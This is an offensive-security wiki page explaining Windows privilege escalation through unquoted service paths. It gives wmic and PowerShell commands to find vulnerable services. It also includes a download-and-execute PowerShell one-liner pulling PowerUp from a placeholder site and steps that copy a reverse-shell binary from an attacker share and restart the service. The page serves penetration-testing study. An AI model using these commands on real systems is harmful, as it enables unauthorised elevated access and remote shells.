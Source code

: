 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path -
  Technique T1574.09
---
```


# Unquoted Service Path

## Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks. When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.

Here's an example to illustrate this, consider we have the following executable path:

```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```

In order to run SomeExecutable.exe, the system will interpret this path in the following order:

* C:\Program.exe
* C:\Program Files\A.exe
* C:\Program Files\A Subfolder\B.exe
* C:\Program Files\A Subfolder\B Subfolder\C.exe
* C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

## Practice

{% tabs %}
{% tab title="Enum" %}
We can use wmic to enumerate it:

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`

```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:

```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}

